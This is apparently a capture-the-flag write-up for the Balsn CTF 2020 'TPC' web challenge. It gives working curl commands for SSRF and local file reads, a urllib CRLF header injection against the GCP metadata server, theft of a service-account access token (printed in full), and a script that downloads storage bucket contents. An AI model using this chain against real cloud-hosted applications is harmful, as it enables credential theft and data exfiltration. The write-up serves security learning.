

# TPC (web, 310p, 33 solves)



## Description

The challenge implements a simple python application taking an URL as parameter. It allows us to perform SSRF and local file disclosure.

Reading a file on the server is as simple as:

```shell
$ curl -s --output - 'http://35.194.175.80:8000/query?site=file:///etc/passwd'
```

```
root:x:0:0:root:/root:/bin/ash
bin:x:1:1:bin:/bin:/sbin/nologin
[...]
```

We first needed to be sure what the python code does. To find this out, we tried to find where it was located:

```shell
$ curl -s --output - 'http://35.194.175.80:8000/query?site=file:///proc/self/cmdline'
```

```
/usr/local/bin/python/ usr/local/bin/gunicorn main-dc1e2f5f7a4f359bb5ce1317a:app --bind 0.0.0.0:8000 --workers 5 --worker-tmp-dir /dev/shm --worker-classgevent --access-logfile - --error-logfile
```

Now that we know the application name, we can simply dump the file using:

```shell
$ curl -s --output - 'http://35.194.175.80:8000/query?site=file:///proc/self/cwd/main-dc1e2f5f7a4f359bb5ce1317a.py'
```

```python
import urllib.request

from flask import Flask, request

app = Flask(__name__)


@app.route("/query")
def query():
    site = request.args.get('site')
    text = urllib.request.urlopen(site).read()
    return text


@app.route("/")
def hello_world():
    return "/query?site=[your website]"


if __name__ == "__main__":
    app.run(debug=False, host="0.0.0.0", port=8000)
```

It looks like there's nothing much going on with this python code. 


Looking at system files we noticed that the instance is under a GCP cluster:

```
# /etc/resolve.conf
nameserver 169.254.169.254
search asia-east1-b.c.balsn-ctf-2020-tpc.internal c.balsn-ctf-2020-tpc.internal google.internal
```

```
# /etc/hosts
127.0.0.1       localhost
::1             localhost

169.254.169.254 metadata.google.internal metadata
```

We can use this information to perform http request on the Google Internal API:

```shell
$ curl -s --output - 'http://35.194.175.80:8000/query?site=http://metadata/computeMetadata/v1/'
```

```html
<!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 3.2 Final//EN">
<title>500 Internal Server Error</title>
<h1>Internal Server Error</h1>
<p>The server encountered an internal error and was unable to complete your request. Either the server is overloaded or there is an error in the application.</p>
```

Unfortunatly, the Google API requires a special header to be placed in the HTTP request:

```
Metadata-Flavor: Google"
or
X-Google-Metadata-Request: True
```

To do this, we need to control the HTTP request sent by the python script. It cannot be done unless the http client used is vulnerable to a CRLF injection. 

```shell
# requirements.txt
# Nothing to see tho
Flask==1.1.2
requests==2.23.0
gevent==20.9.0
gunicorn==20.0.4
```

Using some google dorks, I found the following hackerone post:

```
site:hackerone.com urllib
```


[URLLib CRLF Injection](https://hackerone.com/reports/590020)

Let's try this:

```shell
$ curl -s --output - 'http://35.194.175.80:8000/query?site=http://metadata/computeMetadata/v1/instance/hostname%20HTTP/1.1%0D%0AMetadata-Flavor:%20Google%0D%0A%0D%0A%0D%0AFoo:'
```

```
tpc-1.asia-east1-b.c.balsn-ctf-2020-tpc.internal
```

From now, we know the challenge will be about finding the flag as a volume or something. Let's dig in the google APIs.

We can obtain the google api token by using this:

```shell
$ curl -s --output - 'http://35.194.175.80:8000/query?site=http://metadata/computeMetadata/v1/instance/service-accounts/909684563558-compute@developer.gserviceaccount.com/token%20HTTP/1.1%0D%0AMetadata-Flavor:%20Google%0D%0A%0D%0A%0D%0AFoo:'
```

```json
{"access_token":"ya29.c.KpcB5Qf1Y_GQAIL2c0Zyb9gzjvR3y14PYiPegz97C0BZP8AoWcNjrrEHNf90WbfjEVVcCBC8w9e3JAClRY3cVA_7DCH6rfajwGNDMY5UYbuffUqCrtGYT6JJrx2lSlG00vm4auxuSpnRm8efQpuAiknPYBXT0CXbF4CH85axaVELJRXT7_X2isbn7eppLZvVDza2spDjPXSylw","expires_in":2877,"token_type":"Bearer"}
```

Let's export the token for future usage:

```shell
$ export TOKEN=$(curl -s --output - 'http://35.194.175.80:8000/query?site=http://metadata/computeMetadata/v1/instance/service-accounts/909684563558-compute@developer.gserviceaccount.com/token%20HTTP/1.1%0D%0AMetadata-Flavor:%20Google%0D%0A%0D%0A%0D%0AFoo:'|jq -r '.access_token')
```

We can use it on the "external" GCP API:

[https://cloud.google.com/storage/docs/json_api/v1](https://cloud.google.com/storage/docs/json_api/v1)

```shell
curl -s "https://www.googleapis.com/oauth2/v1/tokeninfo?access_token=$TOKEN"
```

```json
{
  "issued_to": "102193360015934362205",
  "audience": "102193360015934362205",
  "scope": "https://www.googleapis.com/auth/trace.append https://www.googleapis.com/auth/monitoring.write https://www.googleapis.com/auth/service.management.readonly https://www.googleapis.com/auth/servicecontrol https://www.googleapis.com/
auth/logging.write https://www.googleapis.com/auth/devstorage.read_only",
  "expires_in": 2655,
  "access_type": "online"
}
```

> The token has the `devstorage.read_only` privilege and that will help us dumping the disk.

```shell
$ curl -s "https://storage.googleapis.com/storage/v1/b?project=balsn-ctf-2020-tpc&access_token=$TOKEN
```

```json
{
  "kind": "storage#buckets",
  "items": [
    {
      "kind": "storage#bucket",
      "selfLink": "https://www.googleapis.com/storage/v1/b/asia.artifacts.balsn-ctf-2020-tpc.appspot.com",
      "id": "asia.artifacts.balsn-ctf-2020-tpc.appspot.com",
      "name": "asia.artifacts.balsn-ctf-2020-tpc.appspot.com",
      "projectNumber": "909684563558",
      "metageneration": "1",
      "location": "ASIA",
      "storageClass": "STANDARD",
      "etag": "CAE=",
      "timeCreated": "2020-10-03T05:12:42.035Z",
      "updated": "2020-10-03T05:12:42.035Z",
      "iamConfiguration": {
        "bucketPolicyOnly": {
          "enabled": false
        },
        "uniformBucketLevelAccess": {
          "enabled": false
        }
      },
      "locationType": "multi-region"
    }
  ]
}
```

We can dump the objects id:

```shell
$ curl -s "https://storage.googleapis.com/storage/v1/b/asia.artifacts.balsn-ctf-2020-tpc.appspot.com/o?access_token=$TOKEN"|jq -r '.items[].name'
```

```
containers/images/sha256:1c2e7c9e95b20a8dde6674890b722779c5a797d9d5968a9fa3a0ef89cd90f9b4
containers/images/sha256:28be5eecf71473105c76c5beb040ecf0a28ee2b515fd1756037756ddfd991e06
containers/images/sha256:33e113b16000d89397d3ec7fef9ba22cefbe8517cf2060c6077d723ecacf27f8
containers/images/sha256:343c1ee7a36e03dbe64c58fb910113bf6d0b996dc46d3cdf94b7d97e389c0ad
[...]
```

We urlencoded all of these and stored it as a file to use it in a script:

```shell
dir="./_objects"
mkdir -p "$dir"
for objectId in $(cat /tmp/objects) ; do
    echo "Dumping $objectId"

    outputFile="${dir}/${objectId}.tar.gz"
    curl --output - -Ls "https://storage.googleapis.com/storage/v1/b/asia.artifacts.balsn-ctf-2020-tpc.appspot.com/o/$objectId?access_token=$TOKEN&alt=media" > "$outputFile"

    # List files from the downloaded archive object:
    tar --list --verbose --file="$outputFile"
done
```

This gave us the following objects/files:

```
Dumping containers%2Fimages%2Fsha256%3A343c1ee7a36e03dbe64c58fb910113bf6d0b996dc46d3cdf94b7d97e389c0ad3
drwxr-xr-x 0/0               0 2020-11-12 06:18 opt/
drwxr-xr-x 0/0               0 2020-11-12 06:18 opt/workdir/
-rwxr-xr-x 0/0               0 1970-01-01 01:00 opt/workdir/.wh..wh..opq
Dumping containers%2Fimages%2Fsha256%3A8101ae8fd2dd26ce8868cad0a19f49fd2c7fb0b0a8035b7628ad012589e60b2f
drwxr-xr-x 0/0               0 2020-11-12 06:18 opt/
drwxr-xr-x 0/0               0 2020-11-12 06:21 opt/workdir/
-rw-r--r-- 0/0             373 2020-10-03 07:04 opt/workdir/main-dc1e2f5f7a4f359bb5ce1317a.py
Dumping containers%2Fimages%2Fsha256%3A82b1f60a85530dec16e7db3c4af65f3ea612f579dc25b0daa35d5d253183a537
drwxr-xr-x 0/0               0 2020-11-12 06:18 opt/
drwxr-xr-x 1001/1001         0 2020-11-12 06:21 opt/workdir/
-rwxr-xr-x 1001/1001       225 2020-11-12 06:15 opt/workdir/docker-entrypoint-dc1e2f5f7a4f359bb5ce1317a.sh
-rw-r--r-- 1001/1001        54 2020-11-12 06:13 opt/workdir/flag-6ba72dc9ffb518f5bcd92eee.txt
-rw-r--r-- 1001/1001       373 2020-10-03 07:04 opt/workdir/main-dc1e2f5f7a4f359bb5ce1317a.py
-rw-r--r-- 1001/1001        62 2020-10-03 07:04 opt/workdir/requirements.txt
```

We extract the associated object and obtain the flag:

[object-containing-flag.tar.gz](./files/object-containing-flag.tar.gz)

```shell
$ cat opt/workdir/flag-6ba72dc9ffb518f5bcd92eee.txt
BALSN{What_permissions_does_the_service_account_need}
```
